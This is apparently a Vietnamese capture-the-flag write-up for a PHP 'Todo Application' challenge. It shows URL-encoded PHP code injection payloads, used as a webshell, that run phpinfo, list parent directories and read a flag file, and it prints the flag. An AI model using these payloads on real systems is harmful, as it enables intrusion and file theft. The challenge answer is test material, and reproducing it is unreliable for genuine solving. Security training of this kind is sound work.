

# Todo Application

Bài này cho chúng ta source code



Ta thử một payload bất kì và quan sát url 


Phân tích source code kết hợp với url sau khi tải lên pay load ta thấy rằng khi phương thức $_GET cho ta tải pay load lên với key là add và nội dung file sẽ được ghi vào biến $fileTodo


Phương thức $_GET với key là fileTodo cho phép hiển thị lên front end nội dung của biến $todo


Mình thử một webshell đơn giản là:
```
<?php
phpinfo();
?>
```
Tất nhiên là phải decode.
Sau khi decode đoạn code sẽ là:
```
%3C%3Fphp%0Aphpinfo%28%29%3B%0A%3F%3E
```
fileTodo ta sẽ đặt bất kì
Từ kết quả trả về ta thấy được rằng ta có thể tải nội dung webshell bằng php
Mình thử tải đoạn code này lên và lấy được các thư mục trong *../../../*
```
%3C%3Fphp%0A%24dir%20%3D%20%22..%2F..%2F..%2F%22%3B%0A%24a%20%3D%20scandir%28%24dir%29%3B%0Aprint_r%28%24a%29%3B%0A%3F%3E%0A
```
Đoạn code trên tương ứng với:
```
<?php
$dir = "../../../";
$a = scandir($dir);
print_r($a);
?>
```
sửa lại đoạn code trên để đọc flag:
```
<?php
$b =file_get_contents("../../../flagRqUGM.txt");
print_r($b);
?>
```
và ta đã lấy được flag:

*Flag: CHH{PHP_COdE_iNjECtioN_0bfa984f6e65e02301f8999b669a9cd9}*